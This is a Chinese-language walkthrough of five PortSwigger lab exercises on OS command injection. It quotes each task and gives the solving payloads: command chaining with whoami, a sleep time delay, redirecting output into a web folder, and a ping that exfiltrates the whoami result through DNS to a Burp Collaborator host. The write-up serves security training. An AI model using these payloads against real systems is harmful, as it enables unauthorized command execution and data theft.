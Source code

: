 # OS command injection
## [Lab: OS command injection, simple case](https://portswigger.net/web-security/os-command-injection/lab-simple)
### 題目敘述
This lab contains an OS command injection vulnerability in the product stock checker.

The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.

To solve the lab, execute the whoami command to determine the name of the current user. 
### 題目解釋
要執行 `whoami`，弱點在 stock checker
### 解答

Post 設定參數
```
productId=1%20%26%26%20whoami&storeId=3
```

## [Lab: Blind OS command injection with time delays](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays)
### 題目敘述
 This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response.

To solve the lab, exploit the blind OS command injection vulnerability to cause a 10 second delay. 

### 題目解釋
弱點在 feedback 的地方，是 Blind 的，需要讓他 sleep 10 秒。

### 解答
Message 框框 
```
`sleep 10`
```
其他亂填

## [Lab: Blind OS command injection with output redirection](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)

### 題目敘述
 This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at:

/var/www/images/

The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file.

To solve the lab, execute the whoami command and retrieve the output. 

### 題目解釋
把 `whoami` 的結果導到可寫目錄 `/var/www/images/` 中

### 解答

留言板輸入
```
`whoami > /var/www/images/meow`
```

觀察圖片網址，修改檔名成我們的 `meow`

```
curl https://ac6d1f281ef7c882c02f097c005c00eb.web-security-academy.net/image?filename=meow
```

## [Lab: Blind OS command injection with out-of-band interaction](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band)
### 題目敘述
 This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator. 

### 題目解釋
用 OOB 的方法來戳 DNS，這題也需要 Burp pro
### 解答
```
`ping -c 1 wmm426c5ur886whb24c3mdfj0a60up.burpcollaborator.net`
```

## [Lab: Blind OS command injection with out-of-band data exfiltration](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)
### 題目敘述
 This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, execute the whoami command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab. 
### 題目解釋
用 OOB 的方法帶 `whoami` 出來，一樣需要 Burp Pro。
### 解答
```
`ping -c 1 $(whoami).wmm426c5ur886whb24c3mdfj0a60up.burpcollaborator.net`
```

![](https://i.imgur.com/Ob79KWV.png)

可以看出使用者名稱叫做 `peter-bdv4Yq`

按上方的 submit solution 就可以提交答案

